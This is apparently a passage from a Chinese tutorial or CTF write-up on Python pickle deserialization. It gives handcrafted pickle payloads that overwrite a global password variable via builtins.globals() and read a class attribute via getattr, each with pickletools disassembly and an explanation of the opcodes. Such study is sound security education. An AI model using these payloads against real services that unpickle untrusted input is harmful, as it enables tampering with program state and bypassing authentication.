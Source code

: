 ```python
# payload: b'\x80\x03cbuiltins\nglobals\n)R(VPWD\nVwi1\nu0c__main__\nTarget2\n)\x81}(Vpwd\nVwi1\nub.'
payload2 = b'\x80\x03cbuiltins\nglobals\n)R(VPWD\nVwi1\nu0c__main__\nTarget2\n)\x81}(Vpwd\nVwi1\nub.'
print(payload2)
pickletools.dis(payload2)
Target2(payload2)
"""
b'\x80\x03cbuiltins\nglobals\n)R(VPWD\nVwi1\nu0c__main__\nTarget2\n)\x81}(Vpwd\nVwi1\nub.'
    0: \x80 PROTO      3
    2: c    GLOBAL     'builtins globals'
   20: )    EMPTY_TUPLE
   21: R    REDUCE
   22: (    MARK
   23: V        UNICODE    'PWD'
   28: V        UNICODE    'wi1'
   33: u        SETITEMS   (MARK at 22)
   34: 0    POP
   35: c    GLOBAL     '__main__ Target2'
   53: )    EMPTY_TUPLE
   54: \x81 NEWOBJ
   55: }    EMPTY_DICT
   56: (    MARK
   57: V        UNICODE    'pwd'
   62: V        UNICODE    'wi1'
   67: u        SETITEMS   (MARK at 56)
   68: b    BUILD
   69: .    STOP
highest protocol among opcodes = 2
"""


# 获取到 Target2_test 类的内部的值，利用i
# payload: b'(c__main__\nTarget2_test\nVPWD_TEST\nibuiltins\ngetattr\n.'
print(b'(c__main__\nTarget2_test\nVPWD_TEST\nibuiltins\ngetattr\n.')
pickletools.dis(b'(c__main__\nTarget2_test\nVPWD_TEST\nibuiltins\ngetattr\n.')


print(pickle.loads(b'(c__main__\nTarget2_test\nVPWD_TEST\nibuiltins\ngetattr\n.'))
"""
b'(c__main__\nTarget2_test\nVPWD_TEST\nibuiltins\ngetattr\n.'
    0: (    MARK
    1: c        GLOBAL     '__main__ Target2_test'
   24: V        UNICODE    'PWD_TEST'
   34: i        INST       'builtins getattr' (MARK at 0)
   52: .    STOP
highest protocol among opcodes = 0
"""
```

通过`import builtins`，利用其中的`globals`覆盖`PWD`，然后再用`0`弹出栈里的 `builtins.globals()` ，因为`builtins.globals()`是一个字典没有办法利用`.`来获取值也就是没有`__getattribute__`方法，所以再压入一个`Target2`实例，然后利用`\x81`来实例化对象，再用`b`给其附上属性`pwd`的值，就完成了覆盖
